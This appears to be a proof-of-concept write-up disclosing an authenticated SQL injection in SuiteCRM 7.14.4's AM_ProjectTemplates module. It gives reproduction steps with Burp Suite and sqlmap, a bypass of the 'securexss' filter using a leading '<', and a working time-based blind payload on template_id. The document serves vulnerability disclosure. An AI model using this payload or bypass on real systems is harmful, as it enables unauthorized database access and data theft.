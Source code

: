 # SuiteCRM-7.14.4-SQLi
### Summary:
In SuiteCRM versions 7.14.4, poor input validation allows authenticeted user inject SQL query to retrieve data in database.

### Vuln code:
The vulnerability exists in the **controller.php** file of the **AM_ProjectTemplates** module.</br>
This file gets user inputs **$template_id** via POST request (line 42) and uses them in a SQL query without sanitization.
![Alt text](Code%201.png)</br>
**$template_id** parameter is concatenated in SQL query (line 150).
![Alt text](Code%202.png)
Application uses **“securexss”** function for every parameter used in application environment. 
![Alt text](securexss.png)</br>
But it can be easily bypassed by adding a **"<"** character before the payload.

### Reproduce bug:
Step 1: Access to http://localhost:8000/SuiteCRM/index.php?action=Login&module=Users and login with low privilege user
![Alt text](Login.png)
Step 2: Access to http://localhost:8000/SuiteCRM/index.php?module=AM_ProjectTemplates&action=EditView and create a project template
![Alt text](Create%20temp.png)
Step 3: Create Project and use Burp Suite to intercept request POST to http://localhost:8000/SuiteCRM/index.php?module=AM_ProjectTemplates&action=create_project. 
![Alt text](Create%20prj.png)
<br>Save the request to SQLi-suitecrm.txt
![Alt text](Request.png)
Step 4: Run Sqlmap to inject payload sqli to param **template_id**. 
![Alt text](SQL%20map.png)
The returned SQLmap result was injected successfully.</br>
**Parameter: template_id (POST)</br>
    Type: time-based blind</br>
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)</br>
    Payload: p_name=tesst123&start_date=07/04/2024&copy_all_tasks=1&template_id=64eb0e1b-f0e5-f7ff-acc8-668646f3ad51<') AND (SELECT 1094 FROM (SELECT(SLEEP(5)))hxxN) AND ('Mstd'='Mstd**</br>

